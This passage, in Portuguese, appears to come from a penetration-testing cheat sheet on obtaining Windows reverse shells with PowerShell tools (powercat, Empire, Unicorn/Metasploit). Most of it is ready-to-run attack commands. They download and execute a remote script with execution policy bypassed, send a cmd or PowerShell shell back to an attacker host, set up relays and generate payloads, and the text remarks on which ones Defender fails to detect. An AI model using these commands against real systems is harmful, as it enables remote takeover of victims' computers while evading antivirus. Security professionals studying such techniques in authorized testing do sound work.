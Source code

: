 ### **PS-Powercat**

[**https://github.com/besimorhino/powercat**](https://github.com/besimorhino/powercat)

Faça o download, inicie um servidor web, inicie o ouvinte e execute-o no computador da vítima:
```
powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
O Defender ainda não detecta isso como código malicioso (até o momento, 3/04/2019).

**Outras opções oferecidas pelo powercat:**

Shell de ligação, shell reverso (TCP, UDP, DNS), redirecionamento de porta, upload/download, gerar payloads, servir arquivos...
```
Serve a cmd Shell:
powercat -l -p 443 -e cmd
Send a cmd Shell:
powercat -c 10.1.1.1 -p 443 -e cmd
Send a powershell:
powercat -c 10.1.1.1 -p 443 -ep
Send a powershell UDP:
powercat -c 10.1.1.1 -p 443 -ep -u
TCP Listener to TCP Client Relay:
powercat -l -p 8000 -r tcp:10.1.1.16:443
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
powercat -c 10.1.1.15 -p 443 -e cmd -g
Start A Persistent Server That Serves a File:
powercat -l -p 443 -i C:\inputfile -rep
```
### Empire

[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

Crie um lançador do powershell, salve-o em um arquivo e faça o download e execute-o.
```
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
**Detectado como código malicioso**

### MSF-Unicorn

[https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

Crie uma versão em powershell de uma porta dos fundos do metasploit usando o unicorn
```
python unicorn.py windows/meterpreter/reverse_https 10.2.0.5 443
```
Inicie o msfconsole com o recurso criado:
```
msfconsole -r unicorn.rc
```
Inicie um servidor web que sirva o arquivo _powershell\_attack.txt_ e execute no alvo:
```
powershell -exec bypass -c "iwr('http://10.2.0.5/powershell_attack.txt')|iex"
```
**Detectado como código malicioso**
